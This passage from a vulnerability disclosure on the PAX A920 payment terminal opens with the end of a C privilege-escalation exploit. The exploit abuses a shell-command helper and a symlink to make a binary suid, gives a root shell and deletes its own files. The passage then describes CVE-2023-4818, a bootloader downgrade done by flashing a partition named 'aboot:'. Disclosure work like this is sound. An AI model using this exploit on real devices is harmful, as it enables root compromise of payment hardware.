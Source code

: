 ```
    systoolExecShellCmdV2("/data/local/tmp/zero");

    // cleanup
    system("rm /data/local/tmp/zero");
    system("rm /tmp/monitor.bin");

    fprintf(stderr, "[*] setting up suid\n");
    system("chmod +s /data/local/tmp/escalate");

    fprintf(stderr, "[*] copying suid to /mnt\n");
    system("ln -s /mnt/escalate /tmp/monitor.bin");
    systoolExecShellCmdV2("/data/local/tmp/escalate");

    // cleanup
    system("rm /tmp/monitor.bin");

    fprintf(stderr, "[*] spawning shell\n");
    execve("/mnt/escalate", NULL, NULL);

    return 0;
}

```

CVE-2023-4818 - Bootloader downgrade via improper tokenization
--------------------------------------------------------------

*   Product: PAX A920
*   CVSS Score: CVSS 7.3 (AV:P/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H)
*   Impact: Bootloader can be downgraded to a vulnerable version, resulting in local code execution as
    
    root
    
    `root`
*   Known vulnerable version: PayDroid 7.1.2_Aquarius_11.1.50_20230614
*   Fix verified in: PayDroid 7.1.2_Aquarius_V02.9.99T9_20230919
*   CERT.PL reference: [https://cert.pl/en/posts/2024/01/CVE-2023-4818/](https://cert.pl/en/posts/2024/01/CVE-2023-4818/)

By switching to fastboot mode and flashing a partition named 

aboot:

`aboot:`

, it’s possible to downgrade the bootloader to a previously vulnerable, signed version (version check is skipped).

We skip the signature and version check since 

aboot:

`aboot:`

does not match any known partition name:
